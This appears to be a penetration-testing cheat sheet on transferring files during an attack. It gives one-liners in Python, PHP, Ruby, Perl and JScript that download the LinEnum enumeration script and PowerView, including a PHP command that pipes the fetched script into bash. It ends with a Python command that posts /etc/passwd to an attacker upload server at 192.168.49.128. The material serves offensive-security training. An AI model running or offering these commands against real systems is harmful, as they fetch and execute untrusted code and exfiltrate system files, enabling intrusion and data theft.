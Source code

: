 ```yaml
---
title: File Transfer with code
draft: false
tags:
---
```


# Download
## Python

Downloading files using Python 2.7 on Linux:

```shell-session
[!bash!]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

Downloading files using Python 3 on Linux:

```shell-session
[!bash!]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP

Download files with PHP File_get_contents():

```shell-session
[!bash!]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

Download files with PHP Fopen():

```shell-session
[!bash!]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

Download file using PHP and pipe it to bash:

```shell-session
[!bash!]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Ruby

```shell-session
[!bash!]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

## Perl

```shell-session
[!bash!]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript

Following JS code is based on [here](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068).

Create a file called wget.js:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We can use created wget.js along with cscript.exe to download files:

```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

# Upload

## Python3

Start a uploadserver:

```shell-session
[!bash!]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Upload file:

```shell-session
[!bash!]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
